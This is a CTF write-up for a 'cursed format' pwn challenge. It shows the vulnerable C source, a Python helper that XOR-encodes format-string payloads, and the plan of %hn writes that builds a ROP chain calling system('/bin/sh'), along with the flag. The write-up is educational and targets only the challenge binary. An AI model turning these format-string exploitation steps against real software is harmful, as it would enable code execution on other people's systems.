

# cursed format - format string


## TL;DR

- Execute consecutive format string writes in the stack to form a rop chain into executing `system("/bin/sh")`

## Challenge Description

> I hate %n. No more %n. Stupid %n. Has anyone really ever seen a format string?

Category: **pwn**

## Exploitation
### Source code

- Fortunately for us, they provide us with the source code of the binary.
- The first thing we see is a prompt with a menu giving us 2 options: ``1. Keep formating`` or ``2. Just leave``

```c

int main(){
    char str[fmtsize];
    char key[fmtsize];
    int option;

    banner();
    memset(key, 0xff, fmtsize);
    while(1){
        printchoices();
        getStr(str);
        option = atoi(str);
        switch(option){
            case 1:
                getStr(str);
                curse(str,key);
                printf(str);
                break;
            case 2:
                puts("Hope you did something cool...");
                return 0;
            default:
                puts("Invalid option!");
                break;
        }
    }
}

```

- The first function has a format string vulnerability `printf(str)`. But the payload is getting encoded by a `curse` function.

```c

void curse(char * str, char * key){
    for(int i=0; i<fmtsize; i++){
        char c = str[i];
        str[i] = c ^ key[i];
    }
    for(int i=0; i<fmtsize; i++){
        key[i] = str[i];
    }
}

```

- This function simply applies a XOR to our payload with a key (initialized to ``0xff * fmtsize``), and after finishing the encoding sets the key to the result.
- We have infinite printf loops so we can arbitrary read and write wherever we want, our only problem is that our max size for the payload is 0x20, which is very small for a big format string overwrite. This would not have been a problem if the binary had no PIE.

- We were not that lucky:

```console
lokete@kpwn:~/Desktop/ctf/pctf/cursed_fmt/src$ pwn checksec cursed_format
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

- In fact, this will be more annoying that we would think at first because we have `Full RELRO`, which means that the GOT table is not writable (typical approach of a format string challenge).

- We have to leak stack and libc addresses and write inside the stack with a crafted rop chain to execute ``system("/bin/sh")``. This can be tricky because of the 0x20 bytes problem, we need to write `pop rdi; ret + bin_sh address + ret; + system()`, 4 full addresses (24 bytes).

- For each write, we have to encode the payload with the key, save the output and encode the next one using that as a key.

- Using `%<pos>$p` payload we can leak stack and libc addresses, we create a helper `enc()` function and we encode our first payload with `0xff * fmtsize`:

```python

def enc(buf: bytes, key=b'\xff' * 0x20):
    return b''.join([p8(b ^ key[i % len(key)]) for (i, b) in enumerate(buf)]).ljust(FMTSIZE, b'\x00')

payload = f'%{LIBC_IDX}$p--%{STACK_IDX}$p\n'.encode().ljust(FMTSIZE, b'\x00')

key = payload # Save key for later
io.sendlineafter(b'>> ', b'1')
enc1 = enc(payload)
io.send(enc1)

```

- This way we retrieve the leaks and we can start to form our ROP chain. We are going to write the addresses 2 bytes at a time, because thats the maximum we can do with only 0x20 buffer size.
- Writes:

```python
# only half of it because it was already a libc address
return_address: (pop_rdi & 0xffff)
return_address+2: (pop_rdi & 0xff0000) >> 16

return_address+0x8: (binsh & 0xffff)
return_address+0x8+2: (binsh & 0xffff0000) >> 16
return_address+0x8+4: (binsh & 0xffff00000000) >> 32

return_address+0x10: (ret & 0xffff)
return_address+0x10+2: (ret & 0xffff0000) >> 16
return_address+0x10+4: (ret & 0xffff00000000) >> 32

return_address+0x18: (system & 0xffff)
return_address+0x18+2: (system & 0xffff0000) >> 16
return_address+0x18+4: (system & 0xffff00000000) >> 32
```

- The payloads must be `%<bytes_to_write>c%<user_pos>%hn + flat(target_address)`.
- This way we are overwriting the return address of `main`, so instead of going back to `__libc_start_main` after exiting the loop, it goes to our ROP chain. Now we execute our exploit and after the writes, choose the exit option to get our shell.

### Getting the flag



### Flag
pctf{im_sorry_i_made_you_do_that_lol}

### Solvers
- You can download the solver script [here](assets/local.py). It is overwhelmingly dirty, I would not look there :).
